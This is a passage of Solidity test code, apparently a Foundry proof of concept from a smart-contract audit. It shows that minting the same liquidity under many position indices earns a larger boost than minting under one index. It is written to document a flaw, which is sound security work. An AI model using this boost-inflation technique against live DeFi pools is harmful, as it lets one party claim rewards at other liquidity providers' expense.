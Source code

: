 ```solidity
        int24 tickUpper
    ) internal pure returns (bytes32) {
        return keccak256(abi.encodePacked(owner, index, tickLower, tickUpper));
    }

   function testMultipleAttachmentPOC() public {
        uint256 period = block.timestamp / (1 weeks);
        ( 
            uint160 sqrtPriceX96, 
            int24 tick, 
            uint16 observationIndex, 
            uint16 observationCardinality, 
            uint16 observationCardinalityNext, 
            uint8 feeProtocol, 
            bool unlocked
        ) = _pool.slot0();
        int24 tickLower = tick - 132;
        int24 tickUpper = tick + 68;

        // get the boostAmount when using the same index to repeatedly mint
        for (uint i = 0; i < 10; i++) {
            _pool.mint(address(this), 0,  tickLower, tickUpper, 100, 1, "");
        }
        (uint128 boostAmountMintingSameIndex,,,) = _pool.boostInfos(period, positionHash(address(this), 0, tickLower, tickUpper));
        // clear out all the state from this minting such that it doesn't affect the minting below.  In essence, the two operations should functional independently of one another.
        _pool.burn(0, tickLower, tickUpper, 100 * 10, 1);
        _pool.collect(address(this), tickLower, tickUpper, uint128(_token0.balanceOf(address(_pool))), uint128(_token1.balanceOf(address(_pool))));
        vm.startPrank(address(_pool));
        _token0.transfer(address(this), _token0.balanceOf(address(_pool))); // clear the fee balances
        _token1.transfer(address(this), _token1.balanceOf(address(_pool)));
        vm.stopPrank();

        skip(1 weeks); // skip forward a week to ensure the prior period's `totalVeRamAmount` doesn't affect this period's. 
        period = period + 1;

        // get the boostAmount when using different indices to repeatedly mint
        uint128 boostAmountMintingDifferentIndices;
        for (uint i = 0; i < 10; i++) {
            _pool.mint(address(this), i+1,  tickLower, tickUpper, 100, 2, ""); // the VotingEscrow contract is hard coded to return the same balanceOfNFT for every tokenId to illustrate the point.
            (uint128 boostAmountAccumulator,,,) = _pool.boostInfos(period, positionHash(address(this), i+1, tickLower, tickUpper));
            boostAmountMintingDifferentIndices += boostAmountAccumulator;
        }

        // the boostAmount of all the differently indexed positions is > the boost amount when using the same position supplying the same liquidity
        assertGt(uint(boostAmountMintingDifferentIndices), uint(boostAmountMintingSameIndex));
    }
}
```
